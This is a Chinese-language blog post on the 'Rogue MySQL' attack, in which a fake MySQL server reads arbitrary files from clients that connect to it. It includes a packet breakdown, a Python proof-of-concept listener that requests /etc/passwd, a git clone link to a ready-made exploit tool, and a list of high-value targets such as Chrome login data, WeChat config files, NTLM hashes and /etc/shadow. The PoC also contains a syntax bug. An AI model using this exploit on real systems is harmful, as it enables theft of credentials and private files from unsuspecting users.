 ```yaml
---
layout: post
title: RougeMysql任意读取用户文件
---
```


[TOC]

> **“** Mysql任意读取客户端文件已经早在17年就已经有人提起过，放在今天来看，可以用做蜜罐来获取攻击者的个人信息文件，也可以用在AWD中，比如可以获取攻击者QQ号，聊天记录，微信id，NTMLHash等，此文只做为引子介绍Rouge-Mysql攻击过程 **”**



## 01 数据包分析

在开始之前，我们首先要了解一个命令

 `load data local infile '/etc/passwd' into table users fields terminated by '\n';`

上面这句命令的意思解释一下就是 导入一个本地文件 `etc/passwd` 至 `user`表中，导入数据以` \n`换行符分割

![img](https://s1.ax1x.com/2020/09/12/wagZo8.md.png)

PS：

**Mysql >8.0** 版本的是默认禁止了 **local_infile** 功能 ，所以需要手动开启

`set global local_infile = 1;`

![img](https://s1.ax1x.com/2020/09/12/wagkLt.md.png)

运行 `load data` 命令查看数据包

![img](https://s1.ax1x.com/2020/09/12/wagVdf.md.jpg)

![img](https://s1.ax1x.com/2020/09/12/wagEeP.md.png)

test文件内容

![img](https://s1.ax1x.com/2020/09/12/wagFsI.md.png)



上面就是完整的 `load data` 命令数据包

下面我们重点看一下 请求读取文件的这个数据包

![img](https://s1.ax1x.com/2020/09/12/wagmFS.md.jpg)



- 红框内容 `1c`：文件绝对路径长度+1 （16进制）
- 蓝框内容 `00 00 01`：数据包序号
- 绿框内容 `fb`：数据包类型

可以看到我们只需要获取到 **文件名+绝对路径的长度+1** 再加上要读的文件绝对路径基本就可以实现读取任意文件，简单构造一下数据包：

(文件绝对路径长度+1) `00 00 01 fb` (文件绝对路径)

```python
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename 
```



## 02伪造 **Mysql**客户端

想要伪造一个Mysql客户端，我们先启动一个正常的 Mysql 服务，正常的过一遍连接到认证成功的流程。

Mysql 先是发送一个 `Greeting Proto` 的欢迎包

![img](https://s1.ax1x.com/2020/09/12/wagKzj.md.png)

紧接着就是认证流程数据包，Mysql 收到客户端发来的账号密码 进行验证并返回相应的数据包

![img](https://s1.ax1x.com/2020/09/12/wagQQs.md.png)





Mysql 返回对应的认证包

![img](https://s1.ax1x.com/2020/09/12/waglyn.md.png)





至此就是 Mysql 的认证流程，知道了流程以后，我们就可以伪造 Mysql 客户端：

1. 监听 3306 端口，发送伪造的 Mysql 欢迎数据包
2. 有人连接则发送 Mysql 认证成功的数据包。
3. 伪造 Mysql 读取文件的数据包。
4. 根据数据包特征判断是否读取成功，成功则获取数据包内容。



## 03 Poc演示

Poc：

```python
import socket
import os
import sys

#usage poc.py 3306

port = int(sys.argv[1])
sv=socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("",port))
sv.listen(5)
print "Listen Begin in port "+ str(port)

filename = "/etc/passwd"
conn.address = sv.accept()
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
conn.close()

if len(content) > 4:    
	print("[*] Read %s Successful!" % (filename))
```



本地运行 poc.py

![img](https://s1.ax1x.com/2020/09/12/wag1Lq.md.png)

端口也正在监听中

![img](https://s1.ax1x.com/2020/09/12/wag8e0.md.png)



尝试弱口令连接 Mysql

![img](https://s1.ax1x.com/2020/09/12/wagGwV.md.png)



读取文件成功，同时看一下数据包

![img](https://s1.ax1x.com/2020/09/12/wagNYF.md.png)

可见 **/etc/passwd** 已经读取成功，所有的数据包也都伪造成功

下面要做的就是根据流量特征利用正则提取文件内容即可。



获取工具

git clone https://github.com/ev0A/Mysqlist

dicc.txt 是要读的文件

![img](https://s1.ax1x.com/2020/09/12/waf4C8.md.png)

运行 exp_dicc.py端口 3306

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

尝试在Windows主机连接伪造的 Mysql服务，密码随便写

![img](https://s1.ax1x.com/2020/09/12/wafw4K.md.png)



成功读取到用户文件

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

查看读取的文件

![img](https://s1.ax1x.com/2020/09/12/waftBR.md.png)



截止以上就是完整的伪造攻击流程。



## 04 思考🤔

既然可以任意读取文件，除了/etc/passwd 还有什么其他很有价值的文件呢？

**e.g:**

1. chrom login data 

   `'C:/Users/' + username + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'`

2. NTLM Hash（Bettercap + responder）

3. 微信ID

   `C:\Users\username\Documents\WeChat Files\All Users\config\config.data`

4. `/etc/shadow` 等



**一些问题**

1. 添加判断，若客户端没有进行认证则不需要发送认证成功的数据包



Reference：

[3] https://github.com/ev0A/ArbitraryFileReadList

[4] https://github.com/ev0A/Mysqlist

[5] https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg

<img src="https://s1.ax1x.com/2020/09/12/wafYu9.md.gif" alt="img" style="zoom:80%;" />

